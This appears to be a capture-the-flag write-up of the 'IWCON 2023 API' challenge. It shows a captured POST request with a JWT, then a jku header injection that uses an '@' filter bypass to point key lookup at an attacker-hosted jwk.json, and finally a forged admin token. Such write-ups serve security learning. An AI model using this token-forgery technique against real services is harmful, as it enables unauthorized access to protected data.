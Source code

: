 ```yaml
---
title: IWCON23 CTF
image: assets/writeups/trace4.jpeg
description: Writeup for challenge IWCON 2023 API solved in IWCON 2023 
date: 2023-06-23 16:30:00 -3000
categories: [CTFwriteups]
tags: [API, web]
author: trace
---
```


![](https://imgur.com/HDfHZOD.png)
### **IWCON 2023 API**

#### **Step 1: Unveiling the Exploited Token Mechanism**

Our team meticulously scrutinized a POST request, uncovering a potential threat. This comprehensive analysis exposed the utilization of a manipulated token within the request to gain unauthorized access to sensitive information.

**POST Request Details:**
```http
POST /api/v2/getFlag HTTP/1.1
Host: 3.111.42.9:9595
User-Agent: curl/8.4.0
Accept: */*
Content-Length: 540
Content-Type: application/x-www-form-urlencoded
Connection: close
token=eyJqa3UiOiJodHRwczovLzc1N2YtMTE0LTM2LTE3LTIxNS5uZ3Jvay1mcmVlLmFwcCIsImtpZCI6IjY3ZTVjNjkyLWMzYzUtNDcwNi05MmVmLTUzMGUyZGU4YWIwMCIsInR5cCI6IkpXVCIsImFsZyI6IlJTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIn0.OJY-8-9hUxEtSTH3w_LzfvC4ijYVbVBPCRzOII6JWIPLiwX3PFcpdo1Gks4vi3dpGAoX6ZJRAyQm7QDzRv083GngSqF1ZrH5ZfNEt8MWqK28rpVQx9BnatUxXYdaA3gNiWtPPyDl9cJsX1T6w4MCRljb9qih_gOCMjAtV6KxxKR2nJAPhSUbR0yzr7c13UWFQNnifSwBLGMcbxg2Doeh-fBqSS4JvueXKnQRyV-Th5RBlvUx6prQGk0IXW1I-93dCkbWXSUDX4JCzqXHa6qI0xgp_akhz8S1pcwq2sUECujVAgz75ke-pzQhSkzh5wN1G_T5jXEcKKIMTcg6JlKCWw
```

#### **Step 2: Manipulating the "jku" Parameter for Unauthorized Access**

Upon closer inspection, our team identified the "jku" parameter, pointing to "http://3.111.42.9/". Further investigation revealed a filter in place, leading to the discovery that leveraging the "@" symbol could redirect communication to a malicious server. To bypass the imposed filter, the "jku" parameter was manipulated to `"jku": "http://3.111.42.9@167.235.239.14:1445/.well-known/jwk.json"`. Notably, the requested `jwk.json` was then hosted on the attacker's server.

**JWK JSON Payload:**
```json
{"mykeys":[{"alg":"RS256","e":"AQAB","kid":"1234","kty":"RSA","n":"...","use":"sig"}]}
```

#### **Step 3: Generating the "N" Value for Unauthorized Token Creation**

With the obtained JWK data, we extracted the "N" value and proceeded to craft a new JWT token, embedding the desired username to facilitate the extraction of the target flag.

**Final JWT Token:**
```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IjEyMzQiLCJqa3UiOiJodHRwOi8vMy4xMTEuNDIuOUBSRURBQ1RFRDoxNDQ1Ly53ZWxsLWtub3duL2p3ay5qc29uIn0.eyJ1c2VybmFtZSI6Iml3Y29uIiwiYWRtaW4iOiJ0cnVlIn0.Ki_I4KqmCbEwbN8hEU7NiKsbsyBKUlDKuNSwZthXPZLUAY0x4FruBP5YKyBl-ohR6BPH8IEYt72smgMF4tEuUc0kyyJnOmr0e_VujEa5V23uo80I39rPB3H3U4t5XBEviZKd2haf2h5fkgW3ZNm6SdvvcweKyYpRkTjEAIDR1F5Th2ygjSl6hC8mBuX3cE_Xu4-Wh7EkotWB3hBbSNDrmsxeH2amqA6ZbP6Gwm7aCv0MWHvgGbT1KUtxQZM0WlmcqQlblO4UkYet7_byppX5TIdLy5aB-r6RvSiL9H6HI0VtjkWBu_BFmKywW0aPWVVJuG34ewtO5tTHTmtNFUqnWg
```

Acknowledgments to the shadowbrokers team for their collaborative effort:
- [https://twitter.com/Hac10101](https://twitter.com/Hac10101)
- [https://twitter.com/C15C01337](https://twitter.com/C15C01337)
- [https://twitter.com/5hriyan5h](https://twitter.com/5hriyan5h)
- [https://twitter.com/0xManan](https://twitter.com/0xManan)
- [https://twitter.com/Saitleop](https://twitter.com/Saitleop)
